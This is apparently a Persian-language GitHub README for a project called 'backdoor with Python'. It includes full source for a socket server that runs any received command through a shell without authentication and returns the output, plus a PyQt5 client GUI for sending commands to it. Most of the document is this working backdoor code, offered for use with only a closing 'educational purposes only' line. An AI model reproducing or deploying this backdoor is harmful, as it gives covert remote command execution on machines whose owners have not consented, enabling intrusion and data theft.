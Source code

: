 ![OIG3 (2)](https://github.com/msade6h/backdoor-with-python/assets/94873023/e18cba33-fcc3-4647-85da-622ac67794be)


---

# بک دور با پایتون

این پروژه شامل دو قسمت اصلی است: یک سرور که برای اتصال‌های ورودی گوش می‌دهد و دستورات دریافتی را اجرا می‌کند، و یک کلاینت با رابط کاربری PyQt5 که به سرور متصل شده و دستورات را برای اجرا ارسال می‌کند. همچنین کلاینت خروجی دستورات اجرا شده را نمایش می‌دهد.

## امکانات

- اجرای دستورات از راه دور از طریق یک رابط کاربری ساده و کاربرپسند با PyQt5
- نمایش لحظه‌ای خروجی دستورات در برنامه کلاینت
- رابط کاربری آسان برای استفاده با ورودی متن برای دستورات و ناحیه نمایش برای نتایج
- سرور به درخواست‌های چندین کلاینت گوش می‌دهد و آن‌ها را مدیریت می‌کند

## نصب

### پیش نیازها

- Python 3.x
- PyQt5
- تنظیمات شبکه‌ای که ارتباط بین کلاینت و سرور را فراهم کند

### نصب PyQt5

شما می‌توانید PyQt5 را با استفاده از pip نصب کنید:

```bash
pip install PyQt5
```

## استفاده

### اجرای سرور

سرور به اتصال‌های ورودی بر روی هاست و پورت مشخص گوش می‌دهد. دستورات دریافتی را اجرا کرده و خروجی را به کلاینت ارسال می‌کند.

برای اجرای سرور، از دستور زیر استفاده کنید:

```bash
python server.py
```

**کد سرور:**

```python
import subprocess
import socket

def main():
    host = '192.168.0.4'
    port = 999
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind((host, port))
    s.listen(1)
    print(f"Listening on port {port}...")
    while True:
        conn, addr = s.accept()
        print(f"Connected to client: {addr[0]}:{addr[1]}")
        
        while True:
            try:
                command = conn.recv(1024).decode().strip()
                if not command:
                    break

                proc = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
                output, error = proc.communicate()

                conn.sendall(output)
                conn.sendall(error)
            except Exception as e:
                conn.sendall(str(e).encode())

        conn.close()

if __name__ == "__main__":
    main()
```

### اجرای کلاینت

کلاینت به سرور متصل شده و یک رابط کاربری گرافیکی برای ارسال دستورات و نمایش نتایج ارائه می‌دهد.

برای اجرای کلاینت، از دستور زیر استفاده کنید:

```bash
python client.py
```

**کد کلاینت:**

```python
import sys
from PyQt5.QtWidgets import QApplication, QWidget, QVBoxLayout, QLineEdit, QPushButton, QTextEdit, QMessageBox
from PyQt5.QtCore import QThread, pyqtSignal
import socket

class ClientThread(QThread):
    output_signal = pyqtSignal(str)

    def __init__(self, host, port, command_input, parent=None):
        super().__init__(parent)
        self.host = host
        self.port = port
        self.command_input = command_input

    def run(self):
        self.conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.conn.connect((self.host, self.port))
        self.output_signal.emit("vasl shod !\n")
        
        while True:
            command = self.command_input.text()
            self.conn.send(command.encode())
            output_data = self.conn.recv(1024).decode()
            self.output_signal.emit(output_data)

class RemoteCommandExecutor(QWidget):
    def __init__(self):
        super().__init__()
        self.init_ui()

    def init_ui(self):
        self.setWindowTitle("Remote Command Executor")

        layout = QVBoxLayout()

        self.output_display = QTextEdit()
        self.output_display.setReadOnly(True)
        layout.addWidget(self.output_display)

        self.command_input = QLineEdit()
        layout.addWidget(self.command_input)

        self.send_button = QPushButton("Send Command")
        self.send_button.clicked.connect(self.send_command)
        layout.addWidget(self.send_button)

        self.setLayout(layout)

        self.host = '192.168.0.4'
        self.port = 999
        self.client_thread = ClientThread(self.host, self.port, self.command_input)
        self.client_thread.output_signal.connect(self.update_output)
        self.client_thread.start()

    def send_command(self):
        command = self.command_input.text()
        self.client_thread.conn.send(command.encode())
        self.command_input.clear()

    def update_output(self, output):
        self.output_display.append(output)

if __name__ == '__main__':
    app = QApplication(sys.argv)
    window = RemoteCommandExecutor()
    window.show()
    sys.exit(app.exec_())
```

## تصاویر
![1717540374372](https://github.com/msade6h/backdoor-with-python/assets/94873023/37c3e9e4-a3cd-489d-a4b7-6680fae4cf78)



*تصویری از رابط کاربری کلاینت برای اجرای دستورات از راه دور.*

## مشارکت

1. ریپازیتوری را فورک کنید.
2. یک شاخه جدید ایجاد کنید (`git checkout -b feature-branch`).
3. تغییرات خود را کامیت کنید (`git commit -am 'Add new feature'`).
4. به شاخه خود پوش کنید (`git push origin feature-branch`).
5. یک Pull Request جدید ایجاد کنید.

## مجوز


این پروژه تحت مجوز MIT منتشر شده است - برای جزئیات بیشتر فایل [LICENSE](https://mateam.org) را ببینید.


## اعلان

این پروژه فقط برای مقاصد آموزشی است. لطفاً از آن به صورت مسئولانه و اخلاقی استفاده کنید.

---

